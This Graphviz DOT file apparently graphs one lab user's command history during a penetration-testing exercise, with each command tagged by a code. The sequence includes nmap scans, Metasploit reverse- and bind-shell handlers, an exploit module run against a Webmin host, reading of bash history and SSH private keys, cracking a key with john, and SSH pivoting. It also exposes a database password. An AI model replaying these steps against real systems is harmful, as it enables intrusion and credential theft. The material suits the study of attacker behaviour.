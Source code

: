 // creating graph for user: 42
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -p1-65535 172.18.1.5 M0 "]
	2 [label="msfdb init U"]
	3 [label="msf U"]
	4 [label="apt-get install armitage U"]
	5 [label="apt-get update U"]
	6 [label="exit U"]
	7 [label="armitage U"]
	8 [label="back U"]
	9 [label="db_status U"]
	10 [label="setg A6 "]
	11 [label="back U"]
	12 [label="back U"]
	13 [label="db_connect msf:h+L0Xf0385dbIjRgtPnNOaZSMxa7YHoFzS6ojuOkYFc=@localhost:5432/msf U"]
	14 [label="use windows/meterpreter/reverse_tcp A4 "]
	15 [label="back U"]
	16 [label="back U"]
	17 [label="setg LHOST 10.1.135.83 M6 "]
	18 [label="jobs U"]
	19 [label="back U"]
	20 [label="setg LPORT 28605 A6 "]
	21 [label="back U"]
	22 [label="back U"]
	23 [label="hosts -a 172.18.1.5 U"]
	24 [label="back U"]
	25 [label="use auxiliary/scanner/portscan/tcp A4 "]
	26 [label="set RHOSTS 172.18.1.5 M6 "]
	27 [label="set THREADS 24 M6 "]
	28 [label="set PORTS 50000 M6 "]
	29 [label="run -j M8 "]
	30 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 M0 "]
	31 [label="show exploits M8 "]
	32 [label="back U"]
	33 [label="use auxiliary/scanner/portscan/tcp A4 "]
	34 [label="set RHOSTS 172.18.1.5 M6 "]
	35 [label="set THREADS 24 M6 "]
	36 [label="set PORTS 50000 M6 "]
	37 [label="run -j M8 "]
	38 [label="msfconsole M2 "]
	39 [label="set RHOSTS 172.18.1.5 M6 "]
	40 [label="show A5 "]
	41 [label="show all A5 "]
	42 [label="show A5 "]
	43 [label="set exploit M8 "]
	44 [label="set exploit 2019-15107 M8 "]
	45 [label="help U"]
	46 [label="db_nmap --min-hostgroup 96 -T4 -A -v -n 172.18.1.5 M0 "]
	47 [label="use exploit/multi/handler M8 "]
	48 [label="set LHOST 0.0.0.0 M6 "]
	49 [label="set PAYLOAD generic/shell_reverse_tcp M6 "]
	50 [label="set LPORT 14718 A6 "]
	51 [label="set ExitOnSession false A6 A10 "]
	52 [label="exploit -j M8 "]
	53 [label="use exploit/47230 M8 "]
	54 [label="set RHOSTS 172.18.1.5 M6 "]
	55 [label="set TARGETURI / A6 "]
	56 [label="set TARGET 0 A6 "]
	57 [label="set LHOST 10.1.135.83 M6 "]
	58 [label="set LPORT 11265 A6 "]
	59 [label="set PAYLOAD generic/shell_bind_tcp M6 "]
	60 [label="set RPORT 80 M6 "]
	61 [label="set SSL 0 A6 "]
	62 [label="exploit -j M8 "]
	63 [label="use exploit/47230 M8 "]
	64 [label="set RHOSTS 172.18.1.5 M6 "]
	65 [label="set TARGETURI / A6 "]
	66 [label="set TARGET 0 A6 "]
	67 [label="set LHOST 10.1.135.83 M6 "]
	68 [label="set LPORT 2139 A6 "]
	69 [label="set PAYLOAD generic/shell_bind_tcp M6 "]
	70 [label="set RPORT 10000 M6 "]
	71 [label="set SSL 0 A6 "]
	72 [label="exploit -j M8 "]
	73 [label="sessions U"]
	74 [label="sessions -u 1 U"]
	75 [label="use exploit/47230 M8 "]
	76 [label="set RHOSTS  M6 "]
	77 [label="set TARGETURI / A6 "]
	78 [label="set TARGET 0 A6 "]
	79 [label="set LHOST 10.1.135.83 M6 "]
	80 [label="set LPORT 26069 A6 "]
	81 [label="set PAYLOAD generic/shell_bind_tcp M6 "]
	82 [label="set RPORT 10000 M6 "]
	83 [label="set SSL 0 A6 "]
	84 [label="exploit -j M8 "]
	85 [label="use exploit/multi/handler M8 "]
	86 [label="set LHOST 10.1.135.83 M6 "]
	87 [label="set LPORT 8871 A6 "]
	88 [label="set PAYLOAD generic/shell_reverse_tcp M6 "]
	89 [label="set ExitOnSession false A6 A10 "]
	90 [label="exploit -j M8 "]
	91 [label="hosts -a 172.18.1.5 U"]
	92 [label="back U"]
	93 [label="use exploit/47230 M8 "]
	94 [label="set RHOSTS 172.18.1.5 M6 "]
	95 [label="set TARGETURI / A6 "]
	96 [label="set TARGET 0 A6 "]
	97 [label="set LHOST 10.1.135.83 M6 "]
	98 [label="set LPORT 17595 A6 "]
	99 [label="set PAYLOAD generic/shell_bind_tcp M6 "]
	100 [label="set RPORT 10000 M6 "]
	101 [label="set SSL 0 A6 "]
	102 [label="exploit -j M8 "]
	103 [label="sessions U"]
	104 [label="sessions -u 3 U"]
	105 [label="sessions --help U"]
	106 [label="sessions -h U"]
	107 [label="sessions -c 3 ls A10 "]
	108 [label="sessions 3 -c ls A10 "]
	109 [label="sessions 3 -c dir U"]
	110 [label="sessions 3 -c ls A10 "]
	111 [label="sessions 3 -c dir U"]
	112 [label="sessions 3 -c cd / U"]
	113 [label="sessions 3 -c pwd U"]
	114 [label="sessions 3 -c dir U"]
	115 [label="sessions 3 -c WARNING-READ-ME.txt U"]
	116 [label="sessions 3 -c nano WARNING-READ-ME.txt U"]
	117 [label="sessions 3 -c leafpad WARNING-READ-ME.txt U"]
	118 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	119 [label="sessions 3 -c editor WARNING-READ-ME.txt U"]
	120 [label="sessions -u  U"]
	121 [label="sessions -u 1 U"]
	122 [label="sessions U"]
	123 [label="sessions 3 -c less WARNING-READ-ME.txt M9 "]
	124 [label="sessions 3 -c ls A10 "]
	125 [label="sessions -k 3 U"]
	126 [label="sessions -c cd ? U"]
	127 [label="sessions -c cd / U"]
	128 [label="sessions -c cd / U"]
	129 [label="sessions -c dir U"]
	130 [label="sessions -c search history A3 "]
	131 [label="sessions -c find history A10 "]
	132 [label="sessions -c find *.bash_history M10 "]
	133 [label="sessions -c find -name *.bash_history M10 "]
	134 [label="sessions -c dir /home/eve U"]
	135 [label="sessions -c ls A10 "]
	136 [label="sessions -c dir /home U"]
	137 [label="sessions -c cd /home/eve U"]
	138 [label="sessions -c ls A10 "]
	139 [label="sessions 3 -c less .bash_history M11 "]
	140 [label="hosts -a 10.1.17.4 U"]
	141 [label="back U"]
	142 [label="sessions 3 -c tree U"]
	143 [label="sessions 3 -c pwd U"]
	144 [label="sessions 3 -c dir U"]
	145 [label="sessions 3 -c cd / U"]
	146 [label="sessions 3 -c find -name ssh M10 "]
	147 [label="sessions 3 -c cd /etc/ssh A16 "]
	148 [label="sessions 3 -c dir U"]
	149 [label="sessions 3 -c less ssh_host_rsa_key A9 A11 A12 A16 A17 "]
	150 [label="openssh A16 "]
	151 [label="ssh A16 "]
	152 [label="ssh -i /root/ssh M16 "]
	153 [label="dir U"]
	154 [label="dir desktop U"]
	155 [label="dir Desktop U"]
	156 [label="ssh -i /root/desktop/ssh M16 "]
	157 [label="less /desktop/ssh A9 A11 A12 A16 A17 "]
	158 [label="pwd U"]
	159 [label="less /root/desktop/ssh A9 A11 A12 A16 A17 "]
	160 [label="less /root/Desktop/ssh A9 A11 A12 A16 A17 "]
	161 [label="ssh -i /root/Desktop/ssh 10.1.17.4 M16 "]
	162 [label="sessions 3 -c less ssh_host_ecdsa_key.pub A9 A11 A12 A16 A17 "]
	163 [label="ssh -i /root/Desktop/sshpub 10.1.17.4 M16 "]
	164 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	165 [label="ssh -i /root/Desktop/ssh 10.1.17.4 M16 "]
	166 [label="ssh A16 "]
	167 [label="ssh -i /root/Desktop/ssh 10.1.17.4 M16 "]
	168 [label="sessions 3 -c less ssh_config A9 A11 A12 A16 A17 "]
	169 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 M16 "]
	170 [label="chmod 600 /etc/ssh/ssh_comp M15 "]
	171 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 M16 "]
	172 [label="sessions 3 -c cd /usr/bin/ssh A16 "]
	173 [label="sessions 3 -c ls A10 "]
	174 [label="sessions 3 -c less sshd_config A9 A11 A12 A16 A17 "]
	175 [label="sessions 3 -c ls A10 "]
	176 [label="sessions 3 -c less ssh_host_ecdsa_key A9 A11 A12 A16 A17 "]
	177 [label="sessions -c cd / U"]
	178 [label="sessions -c find -fname ecdsa A10 "]
	179 [label="sessions -c find -name ecdsa M10 "]
	180 [label="sessions -c find -name ecdsa_key M10 "]
	181 [label="sessions -c find -fname *ecdsa_key A10 "]
	182 [label="sessions -c find -fname ssh_host_ecdsa_key A10 A16 "]
	183 [label="sessions -c pwd U"]
	184 [label="sessions -c ls A10 "]
	185 [label="python ssh2john.py M13 "]
	186 [label="python ssh2john.py /etc/ssh/ssh_comp M13 "]
	187 [label="python ssh2john.py --help M13 "]
	188 [label="python ssh2john.py M13 "]
	189 [label="python ssh2john.py M13 "]
	190 [label="python ssh2john.py /root/Desktop/ssh_comp M13 "]
	191 [label="john --wordlist rockyou.txt /root/Desktop/john M14 "]
	192 [label="john --wordlist /root/Desktop/john M14 "]
	193 [label="john --wordlist /usr/share/wordlists/rockyou.txt /root/Desktop/john M14 "]
	194 [label="ssh -i /etc/ssh/ssh_comp 10.1.17.4 M16 "]
	195 [label="ssh -i /usr/Desktop/ssh_comp 10.1.17.4 M16 "]
	196 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 M16 "]
	197 [label="chmod 600 /root/Desktop/ssh_comp M15 "]
	198 [label="ssh -i /root/Desktop/ssh_comp 10.1.17.4 M16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	rankdir=LR
}
